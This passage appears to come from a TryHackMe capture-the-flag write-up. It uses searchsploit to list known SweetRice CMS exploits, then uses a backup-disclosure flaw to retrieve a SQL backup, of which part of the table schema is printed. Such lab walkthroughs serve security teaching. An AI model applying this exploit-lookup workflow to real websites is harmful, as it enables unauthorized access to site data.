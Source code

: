 Let's find on searchsploit if there is some exploit for this version of CMS

```bash
➜  TryHackMe searchsploit SweetRice
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion                      | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                   | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                    | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                      | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                          | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                 | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Exec | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload        | php/webapps/14184.txt
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Let's try this one

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/40718)

<div className="Image__Medium">
  <img src="https://imgur.com/9fsvVsS.png" alt="blog_image" />
</div>

There you go ! We have an sql backup let's see the content of it.

```sql
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
```